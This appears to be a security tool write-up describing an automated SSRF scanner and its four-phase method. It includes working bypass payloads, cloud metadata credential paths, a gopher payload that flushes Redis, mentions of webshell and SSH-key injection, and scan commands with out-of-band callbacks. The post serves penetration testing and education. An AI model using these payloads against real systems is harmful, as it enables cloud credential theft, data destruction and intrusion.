









Server-side request forgery has quietly become one of the most impactful vulnerability classes in cloud-native infrastructure. When an application fetches a URL on your behalf — importing a profile picture, rendering a PDF, calling a webhook — and that URL isn't properly validated, you can redirect the server's request to places it was never meant to go. Internal services. Cloud metadata endpoints. The AWS credentials sitting one HTTP request away at `169.254.169.254`.

The problem with testing for SSRF is that the interesting cases are almost always blind. The server fetches your URL, but you don't see the response. You need to infer exploitation through side channels — timing differences, response size anomalies, or out-of-band callbacks that prove the server reached your controlled infrastructure. And even when you find a promising parameter, the application's URL validation might block your payloads, requiring a cascade of bypass techniques specific to the server-side technology stack.

I built Enigma's SSRF engine to automate this entire process. It implements a 4-phase methodology — discover SSRF-prone features, select internal targets, apply filter bypasses, and confirm exploitation via out-of-band callbacks — as a single autonomous scanner. It generates payloads from composable building blocks, orders them by success probability, and uses statistical analysis to detect blind SSRF through timing and response size side channels when direct observation isn't possible.

## Credit

The methodology and techniques implemented here draw from the published work of several researchers:

- **[Brute Logic](https://brutelogic.com.br/)** — The 4-phase SSRF testing framework (Discovery, Target, Bypass, Confirm) that provides the structural backbone of the engine
- **[Orange Tsai](https://x.com/orange_8361)** — URL parser confusion research exploiting differential behavior between validation libraries and HTTP clients
- **[Justin Gardner](https://x.com/Rhynorater)** — Blind SSRF methodology and out-of-band canary token patterns for confirming exploitation without response visibility
- **[Corben Leo](https://x.com/haborr)** — Feature-based SSRF discovery, identifying vulnerable functionality by application behavior rather than parameter names alone

## The 4-Phase Methodology

Every SSRF scan follows four phases. Each phase builds on what the previous one learned:



This isn't a linear pipeline — it loops. When bypass techniques are exhausted for one target, the engine returns to discovery for new parameters. When a bypass is blocked, it tries the next technique in the stack-specific priority order. The phases are states in a state machine, not steps in a checklist.

## Phase 1: Discovery — Finding SSRF-Prone Features

SSRF doesn't live in random parameters. It lives in features that *fetch URLs by design* — webhook callbacks, PDF generators, image processors, URL importers. The discovery phase identifies these features by analyzing HTTP traffic patterns.



Each feature type maps to a database of likely-vulnerable parameter names. Webhooks map to `url`, `callback`, `callback_url`, `webhook_url`, `notification_url`, `ping_url`. PDF generators map to `url`, `source`, `html`, `template`. The engine doesn't just look for `?url=` — it understands that a POST to `/api/webhooks` with a `callback_url` field in the JSON body is a higher-priority SSRF candidate than a query parameter named `redirect`.

The discovery command integrates with Caido's HTTP proxy, generating HTTPQL filter queries to surface candidates from captured traffic:

```bash
# Find SSRF-prone parameters in proxy traffic
enigma-ssrf discover "target.com"

# With custom HTTPQL filter
enigma-ssrf discover "target.com" --httpql="req.path.cont:'/api/'"
```

## Phase 2: Target Selection — Where to Point the Request

Once you have a parameter that fetches URLs, the question becomes: where should you send it? The engine maintains payload generators for four target categories, ordered by impact:

### Cloud Metadata Endpoints

The highest-impact targets. Every major cloud provider exposes an instance metadata service at a link-local IP, and credentials fetched from it can compromise the entire cloud account.

| Provider | Metadata IP | Critical Path | What You Get |
|----------|------------|---------------|-------------|
| AWS | 169.254.169.254 | /latest/meta-data/iam/security-credentials/ | IAM role temporary credentials |
| GCP | metadata.google.internal | /computeMetadata/v1/instance/service-accounts/default/token | OAuth2 access tokens |
| Azure | 169.254.169.254 | /metadata/identity/oauth2/token | Management API tokens |
| DigitalOcean | 169.254.169.254 | /metadata/v1/ | Droplet metadata |
| Alibaba | 100.100.100.200 | /latest/meta-data/ram/security-credentials/ | RAM credentials |
| Oracle | 169.254.169.254 | /opc/v2/instance/ | Instance metadata |

The engine generates 49 cloud metadata payloads across all six providers, plus Kubernetes API server endpoints. For AWS specifically, it implements the two-step credential chain: first enumerate role names at the security-credentials path, then fetch the actual credentials for the discovered role.

### Internal Services

Port scanning and service fingerprinting through SSRF. The engine knows 30+ internal services by port, protocol, and response fingerprint:



When a service is identified by its fingerprint regex, the engine generates service-specific exploitation payloads. Redis gets gopher-protocol command injection. Elasticsearch gets search and credential dump paths. Docker gets container creation for RCE.

### Localhost Admin Paths

Before fancy exploitation, the engine tests 22 common admin endpoints that are often only accessible from localhost: `/admin`, `/phpmyadmin`, `/server-status`, `/actuator`, `/actuator/env`, `/debug/vars`, `/metrics`, `/health`, `/info`. These are tested first because they have the highest success probability — many applications trust requests from `127.0.0.1` without additional authentication.

### Internal Network Scanning

When a subnet is known or guessed, the engine generates a cartesian product of hosts and critical ports, effectively using the SSRF as a port scanner for the internal network.

## Phase 3: Bypass — Evading URL Validation

This is where the engine earns its keep. Most modern applications validate URLs before fetching them. The bypass phase implements three categories of evasion techniques, each with multiple variants.

### IP Obfuscation

The simplest bypass category. When an application blocks `127.0.0.1` or `169.254.169.254` by string matching, alternative IP representations bypass the check while resolving to the same address:

| Technique | 127.0.0.1 becomes | Why it works |
|-----------|-------------------|-------------|
| Decimal | `2130706433` | Single 32-bit integer |
| Octal | `0177.0.0.1` | Leading zero triggers octal parsing |
| Hex | `0x7f.0x0.0x0.0x1` | Hex prefix per octet |
| IPv6 mapped | `[::ffff:127.0.0.1]` | IPv4-mapped IPv6 address |
| IPv6 compressed | `[::ffff:7f00:1]` | Compressed hex form |
| IPv6 expanded | `[0000:0000:...:7f00:0001]` | Full 128-bit form |
| Mixed notation | Hex/octal/decimal mixed per octet | Cross-notation confusion |
| Integer overflow | 32-bit wrap-around | Unsigned integer wrap |
| Shortened | `127.1` | Omitted zero octets |

The engine also maintains 20+ localhost DNS names that resolve to `127.0.0.1`: `localtest.me`, `127.0.0.1.nip.io`, `spoofed.burpcollaborator.net`, and others. These bypass IP-based checks entirely because the validation sees a hostname, not an IP.

For cloud metadata specifically, the engine generates all representations of `169.254.169.254` crossed with the four critical AWS IMDS paths, producing dozens of payloads from composable building blocks.

### URL Parser Confusion

The most technically interesting bypass category. This exploits the fact that the library validating the URL and the library making the HTTP request may parse the same URL differently.



The engine implements eight parser confusion technique generators:

**Authority confusion** — The `@` symbol in URLs separates `userinfo` from `host`. Some parsers see the part before `@` as the host; others see the part after:
```
http://169.254.169.254@allowed.com    → validator sees allowed.com
http://allowed.com@169.254.169.254    → client connects to 169.254
```

**Fragment injection** — The `#` character starts a URL fragment. Some parsers strip it, others don't:
```
http://169.254.169.254#@allowed.com   → fragment hides allowed domain
http://169.254.169.254%23@allowed.com → URL-encoded fragment
http://169.254.169.254%2523@allowed.com → double-encoded (the winning technique)
```

**Backslash normalization** — Windows and cURL normalize `\` to `/`, but many validators don't:
```
http://allowed.com\@169.254.169.254   → validator sees allowed.com
```

**CRLF injection** — Injecting `%0d%0a` sequences to split HTTP requests or inject headers.

**Unicode normalization** — The deepest technique set, with 10+ variants exploiting how different parsers handle Unicode:
- Circled digits (U+2460-U+2468) that normalize to ASCII digits
- Fullwidth characters (U+FF10-U+FF19) — especially effective against Node.js
- Cyrillic homoglyphs that look identical to ASCII but parse differently
- Fullwidth path traversal characters for directory escape

**Open redirect chaining** — Using the target application's own redirect endpoints as a proxy:
```
https://allowed.com/redirect?url=http://169.254.169.254/...
```

**Allowlist bypass** — Subdomain spoofing (`169.254.169.254.allowed.com`), partial match exploitation, and case variation.

### Stack-Specific Bypass Ordering

Not all bypasses work equally against all technology stacks. The engine fingerprints the server-side technology from response headers and error messages, then prioritizes bypass techniques accordingly:



Stack detection works from multiple signals: `X-Powered-By` headers, session cookie names (`PHPSESSID`, `JSESSIONID`, `_session_id`), server software identifiers (`gunicorn`, `Werkzeug`, `Express`), and error message patterns (`curl_exec`, `urllib`, `java.net`).

### Protocol Smuggling

When HTTP-based bypasses fail, the engine tries alternative URL schemes that the server's HTTP client may support:

| Protocol | Target | What It Achieves |
|----------|--------|-----------------|
| `file://` | Local filesystem | Read `/etc/passwd`, `.env`, SSH keys, K8s service account tokens |
| `gopher://` | Any TCP service | Send raw TCP data — Redis commands, SMTP emails, HTTP requests |
| `dict://` | Memcached, Redis | Enumerate and query key-value stores |
| `ftp://` | FTP servers | Exfiltration via FTP callbacks |
| `data://` | In-memory | JavaScript execution in PDF generators, SVG with external refs |

The gopher protocol deserves special attention. It allows sending arbitrary bytes to any TCP port, which means SSRF-to-RCE through internal services becomes possible:

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a
```

This sends the Redis `FLUSHALL` command through the SSRF. The engine generates gopher payloads for Redis command injection (including webshell writes and SSH key injection), Memcached enumeration, SMTP email smuggling, and internal HTTP request forging.

The file protocol generator maintains a database of 50+ sensitive files across Linux, Windows, application configs, and cloud credential paths.

## Phase 4: Confirm — Proving Exploitation

The hardest part of SSRF testing. Most SSRF is blind — the server fetches your URL but you never see the response. The confirmation phase uses three methods:

### Out-of-Band Callbacks

The primary confirmation method. The engine generates unique canary tokens and embeds them in payload URLs pointing to a controlled callback server (`poc-harness.com`). When the target server fetches the URL, the callback server records the connection:



Each token is registered with full scan context — the target URL, parameter name, bypass technique used, and timestamp. When a callback arrives minutes or hours later, the notification includes everything needed to understand what triggered it.

The engine generates four callback variants per parameter:
1. **Direct HTTP** — Standard URL to callback server
2. **DNS-only** — For egress-filtered environments where HTTP is blocked but DNS resolution still leaks
3. **Path-identified** — Embeds target info in the callback URL path for correlation
4. **Redirect chain** — Routes through httpbin.org to test redirect-following behavior

Service-specific callbacks are also generated: Redis `SLAVEOF` replication pointing to the callback server, and Elasticsearch snapshot repository callbacks.

The notification system fires across four channels simultaneously: Slack (rich Block Kit messages with context), desktop notifications (`notify-send`), terminal alerts (bell + colored output), and audio alerts.

### Timing Analysis

When OOB callbacks aren't possible, the engine falls back to statistical timing analysis. It measures response times across all payloads and looks for anomalies:



The key insight: when a server tries to connect to an internal IP that exists but doesn't respond on that port, the request hangs until timeout — producing a dramatically longer response time than a normal rejected request. A payload targeting `169.254.169.254:80` that takes 9 seconds when all other payloads take 200ms is strong evidence of SSRF, even without seeing the response.

### Response Size Analysis

The third confirmation method compares response sizes between internal and external target payloads. The engine separates payloads by target type, calculates average response sizes for each group, and flags significant differences:

- **30%+ size difference** between internal and external groups → high confidence
- **15%+ difference** → medium confidence
- **Individual payloads with 50%+ deviation** from their group average → anomaly flagged

When both timing and size analysis indicate SSRF, the combined confidence is highest.

## The Decision Engine

The autonomous scanner doesn't just generate payloads and send them. It makes decisions about phase transitions, bypass selection, and impact assessment:



The impact assessment is automatic. When cloud metadata credentials are leaked (`AccessKeyId` + `SecretAccessKey` in the response), the engine classifies it as critical with a CVSS estimate of 9.8. When internal services are exposed but no credentials leak, it's high severity. The classification drives how findings are reported and prioritized.

## The Payload Generation Model

A key architectural decision: payloads are generated from composable building blocks, not maintained as static wordlists. This matters because the number of useful payloads is a cartesian product of independent dimensions:

```
Bypass variants  x  Target paths  x  Encoding variants  =  Total payloads
(11 host forms)     (4 IMDS paths)   (5 encodings)          220 payloads
```

For a single cloud provider with a single bypass category. Across all providers, all bypass categories, and all target types, the engine can generate thousands of payloads — far more than a curated wordlist, and each one is structurally valid rather than a random guess.

The generation is ordered by success probability:

1. **Localhost admin paths** (highest hit rate — many apps trust localhost)
2. **Cloud metadata with IP obfuscation** (high impact, simple bypass)
3. **Internal service fingerprinting** (port scan via SSRF)
4. **Parser confusion payloads** (stack-specific ordering)
5. **Protocol smuggling** (gopher, file, dict)
6. **OOB canary payloads** (confirmation)

A configurable cap (`--max=N`) limits the total payloads tested per scan.

## Header Injection Testing

Beyond parameter-based SSRF, the engine tests HTTP headers that applications commonly trust and forward:

| Header | Why It's SSRF-Prone |
|--------|-------------------|
| `X-Forwarded-For` | Often used as client IP for internal routing |
| `X-Forwarded-Host` | Can redirect internal service lookups |
| `X-Callback-URL` | Explicitly asks the server to make a request |
| `Referer` | Logged and sometimes fetched for analytics |
| `X-Original-URL` | Nginx/IIS internal rewrite headers |
| `X-Rewrite-URL` | Same as above — path override |

Each header is tested with canary URLs, localhost variants, and metadata endpoints. The engine uses baseline comparison — sending the request first without injection, then with — and flags responses that differ by more than 10% in size or 500ms in timing.

## Invoking the Engine

### Full Autonomous Scan

```bash
# Basic SSRF scan with OOB callback
enigma-ssrf run "https://target.com/api/fetch" "url" \
  --canary="https://poc-harness.com/c/TOKEN"

# Targeted bypass against specific internal URL
enigma-ssrf run "https://target.com/api/fetch" "url" \
  --target="http://169.254.169.254/latest/meta-data/"

# Skip cloud metadata, focus on internal services
enigma-ssrf run "https://target.com/proxy" "dest" \
  --no-cloud --cookie="session=abc123"

# Test header injection vectors
enigma-ssrf run "https://target.com/api/webhook" "callback_url" \
  --test-headers --canary="https://poc-harness.com/c/TOKEN"

# Verbose output with custom timeout
enigma-ssrf run "https://target.com/import" "source_url" \
  --verbose --timeout=15000 --max=200
```

### Blind SSRF Mode

For endpoints where you get no response visibility at all:

```bash
# Blind SSRF with continuous callback watching
enigma-ssrf blind "https://target.com/webhook" "callback_url" \
  --canary="https://poc-harness.com/c/TOKEN" --watch --timeout=60000

# DNS-only mode for egress-filtered environments
enigma-ssrf blind "https://target.com/api/notify" "url" \
  --dns-only --canary="https://poc-harness.com/c/TOKEN"
```

The `--watch` flag keeps the scanner running after all payloads are sent, listening for delayed callbacks. Some SSRF triggers are asynchronous — a webhook fires minutes after submission, a PDF renders in a queue, an import job processes overnight. The watch mode catches these.

### Discovery Mode

```bash
# Find SSRF candidates in Caido proxy traffic
enigma-ssrf discover "target.com"

# Filter to API endpoints
enigma-ssrf discover "target.com" --httpql="req.path.cont:'/api/'"
```

## Architecture

```
core/engines/ssrf/
├── bypasses/
│   ├── ip-obfuscation.ts      # 9 IP representation conversions
│   │                           # 20+ localhost DNS variations
│   │                           # AWS metadata IP variants
│   ├── parser-confusion.ts    # 8 technique generators
│   │                           # Orange Tsai's differential parsing
│   │                           # Unicode normalization attacks
│   └── protocols.ts           # file, gopher, dict, ftp, data
│                               # 50+ sensitive file paths
│                               # Service-specific gopher payloads
├── payloads/
│   ├── cloud-metadata.ts      # 6 cloud providers, 49 endpoints
│   │                           # AWS credential chain automation
│   └── internal-services.ts   # 30+ service definitions
│                               # Redis/ES/Docker/K8s exploits
│                               # Localhost admin path database
├── canary.ts                  # OOB token generation + registry
│                               # Callback polling + watching
│                               # Statistical blind analysis
│                               # Multi-channel notifications
├── decision-trees.ts          # Feature type classification
│                               # Stack fingerprinting
│                               # Phase transition logic
│                               # Impact assessment + CVSS
├── visualization/
│   ├── logger.ts              # NDJSON event logging
│   └── dashboard.ts           # Real-time web dashboard
└── index.ts                   # 60+ named exports

cli/commands/ssrf/
├── run.ts                     # Full autonomous scanner
├── discover.ts                # Caido traffic analysis
├── blind.ts                   # OOB-focused testing
└── index.ts                   # CLI exports
```

## The Complete Decision Map

This is the full strategy map showing how all four phases connect, what bypass techniques are available, and how confirmation feeds back into the loop:

<a href="/diagrams/ssrf-decision-map.html" target="_blank" style="display:inline-block;margin-bottom:1rem;color:#58a6ff;">→ Open diagram in full screen (new tab)</a>



## Closing Thoughts

SSRF testing is fundamentally different from most vulnerability classes. The vulnerability itself is often trivial — a parameter that fetches a URL. The difficulty is entirely in the bypass and confirmation. Can you get past the URL validation? Can you prove the server reached your target when you can't see the response?

I built the SSRF engine to handle both problems systematically. The bypass techniques are drawn from real research — parser confusion, Unicode normalization, protocol smuggling — and ordered per technology stack so the most effective techniques are tried first. The confirmation system uses OOB callbacks as the primary method, with statistical timing and size analysis as fallbacks when callbacks aren't possible. And the canary token registry ensures that when a delayed callback arrives hours after a scan, the full context of what triggered it is preserved.

The composable payload generation is what makes the engine scale. Adding a new cloud provider is a new array of endpoint objects. Adding a new bypass technique is a new generator function. Adding a new internal service is a new entry in the service database. The 4-phase structure absorbs new capabilities without changing the core scan loop.

SSRF in cloud environments is not getting less dangerous. As more infrastructure moves behind metadata endpoints and internal APIs, the impact of a single forged request keeps growing. The tools need to keep up.

---

*Enigma is part of the [Trace37 Labs](https://trace37.com) security toolkit.*
